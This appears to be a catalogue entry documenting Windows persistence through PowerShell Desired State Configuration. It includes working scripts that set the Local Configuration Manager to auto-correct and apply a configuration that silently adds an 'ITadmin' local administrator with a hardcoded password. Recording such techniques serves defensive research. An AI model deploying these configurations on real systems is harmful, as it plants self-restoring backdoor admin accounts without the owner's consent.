 ## Desired State Configuration <!-- general "title" of the persistence. Good to be unique. -->

<!-- separate sections by two empty lines -->
<!-- do not remove empty sections  -->

### Location: <!-- where to find it -->

N/A[^1]

### Classification: <!-- see "how it works" document. Empty lime must go next. -->

| Criteria         | Value                    |
| :--------------- | :----------------------- |
| Permissions      | Admin                    |
| Security context | System                   |
| Persistence type | Other                    |
| Code type        | Files ; Other ; Fileless |
| Launch type      | Automatic                |
| Impact           | Non-destructive[^2]      |
| OS Version       | All OS versions          |
| Dependencies     | OS only[^3]              |
| Toolset          | Scriptable               |

### Description:<!-- add two EOLs or two spaces at the end of line to create a line break -->

Desired State Configuration (DSC) is a feature in PowerShell 4.0 and above that helps administrators to automate the configuration of Windows and Linux operating systems (OSes).  
DSC provides a set of PowerShell language extensions, cmdlets and a process called declarative scripting.  
Using DSC administrators can ensure that a machine is set to a specific configuration and that if it deviates from the configuration to run scripts that will restore the desired configuration.  
After setting a DSC extension the DSC Local Configuration Manager monitors the configuration and if any deviation is found, it can be fixed with DSC scripts running with system privileges.  
DSC can be run on a local or remote host the user has admin rights on, so it can be used for lateral movement as well.

To abuse DSC for persistence, first the Local Configuration Manager configuration might need be changed to a configuration that is auto-corrected if there is a deviation, to continue configuration after reboot and the frequency of monitoring and changing should be set to the desired value (min 15 minutes).
this can be done with the following script:

```
#Change DSC Local Configuration Manager
[DSCLocalConfigurationManager()]
Configuration SetDSCLMConfig
{
    node localhost
    {
        Settings
        {
            ActionAfterReboot = 'ContinueConfiguration' #Might be already set
            AllowModuleOverWrite = $true
            ConfigurationMode = 'ApplyAndAutoCorrect'
            ConfigurationModeFrequencyMins = 15 #Change this
        }

    }
}
SetDSCLMConfig -OutputPath C:\foo\bar | Out-Null

#Setting the configuration manager
Set-DscLocalConfigurationManager -Path C:\foo\bar -ComputerName localhost

```

After setting the Local Configuration Manager the next step is to create a malicious configuration that suit our needs. Here is an example of a configuration that adds a user to local administrators and creates a file.

```
    Configuration NotMalicious
    {
        Node localhost
        {
            Script ScriptExample
            {
                SetScript = {
                    $username = "ITadmin"
                    $password = ConvertTo-SecureString "password123!!" -AsPlainText -Force
                    $exist = Get-LocalUser -Name $username -ErrorAction SilentlyContinue
                    if($exist -eq $null)
                    {
                        New-LocalUser -Name $username -Password $password -FullName "Real IT admin"
                        Add-LocalGroupMember -Group "Administrators" -Member $username
                    }
                    Write-Output "$(whoami) just added ITadmin" > C:\foo\bar\dsc.txt
                }
                TestScript = {
                    return ($exist -ne $null)
                }
                GetScript = { @{ Result = ($exist -ne $null) } }
            }
    }
    NotMalicious -OutputPath C:\foo\bar | Out-Null

    #Start the configuration
    Start-DscConfiguration -Path "C:\foo\bar" -ComputerName localhost | Out-Null
```

### References: <!-- use <...> or [abc](https://...) syntax. Prepend with "- " when more than one -->

[DSC Tutorial](https://learn.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1)
[DSC Attack Framework](https://www.blackhat.com/docs/asia-16/materials/asia-16-Kazanciyan-DSCompromised-A-Windows-DSC-Attack-Framework.pdf)
[Azure DSC Persistence](https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
[DSC Community](https://github.com/dsccommunity)

### Credits: <!-- use [abc](https://...) syntax. Prepend with "- " when more than one. -->

- Entry added by [@Tamirye94](https://twitter.com/Tamirye94)

### See also: <!-- if refering to the same repo, use [Name](file.md) syntax. -->

<!-- prepend with "- " if more than one -->

### Remarks: <!-- see the usage in the "classification" section. Use only 1:1 references i.e. not refering to the same footnote from two different places -->

[^1]: Uses Microsoft DSC Local Configuration Manager.
[^2]: If a DSC configuration is already set, it will be overwritten.
[^3]: Requires WinRM to be enabled on the target machine
